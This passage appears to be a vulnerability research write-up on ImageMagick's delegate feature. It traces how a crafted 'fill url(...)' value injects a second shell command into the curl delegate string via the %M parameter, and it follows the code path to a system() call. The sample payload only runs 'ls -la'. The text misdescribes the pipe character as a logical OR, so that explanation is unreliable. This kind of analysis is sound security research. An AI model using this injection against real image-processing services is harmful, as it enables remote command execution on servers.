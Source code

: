     "curl" -s -k -L -o "%o" "https:%M"

If this buffer could be manipulated to run subsequently commands, like this following for example:

    "curl" -s -k -L -o "%o" "https://127.0.0.0/spl017.jpg"|ls "-la"

The shell will see this as two commands, separated by a logical OR `|`, which means it will basically evaluate the first expression, if that fails, will move on to the second expression (in this case the `ls -la`).

With `%M` being the actual image hyperlink location from the URI from the `fill` command. To get the buffer to set as above, could set the `fill` command with a url source as follows (note the careful use of double quotes, to ensure the commands on the shell correctly line up):

    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'


ImageMagick allows to process files with external libraries. This feature is called *delegate*. It is implemented as a `system()` with command string ('command') from the config file `delegates.xml` with actual value for different params (input/output filenames etc). Due to insufficient `%M` param filtering it is possible to conduct shell command injection.


To get a idea where in the source tree to start investigating, a quick `grep` over all the *.c files:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# grep -rnw . --include *.c -e 'https'
    ./coders/url.c:314:  entry->description=ConstantString("Uniform Resource Locator 
       (https://)");
    ./tests/validate.c:833:     Reference: https://code.google.com/p/chroma.
    ./magick/delegate.c:98:    "  <delegate decode=\"https\" command=\"&quot;wget&quot; 
       -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
    ./magick/paint.c:571:        Reference https://drafts.csswg.org/css-images-3/#linea
       r-gradients.

The `./magick/delegate.c:98` hit looks most relevant, as there is a good chance this relates to the delegate implementation itself. First I'm interested in the use of any `system` calls:


The `ExternalDelegateCommand` function seems to be responsible for these:

    #if defined(MAGICKCORE_POSIX_SUPPORT)
    #if !defined(MAGICKCORE_HAVE_EXECVP)
      status=system(sanitize_command);
    #else

Which is called by the `InvokeDelegate` function, which is the entry point to the whole delegate system:

     status=ExternalDelegateCommand(delegate_info->spawn,image_info->verbose,
       command,(char *) NULL,exception) != 0 ? MagickTrue : MagickFalse;

The command [to the delegate] is appears to be determined by `InterpretImageProperties`:

    command=InterpretImageProperties(image_info,image,commands[i]);


Locating its implementation again with `grep`:

    root@kali:~/Downloads/ImageMagick-6.9.2-10# grep -rnw . --include *.c -e 
       'InterpretImageProperties' --color
    ./magick/property.c:3296:MagickExport char *InterpretImageProperties(const 
       ImageInfo *image_info,
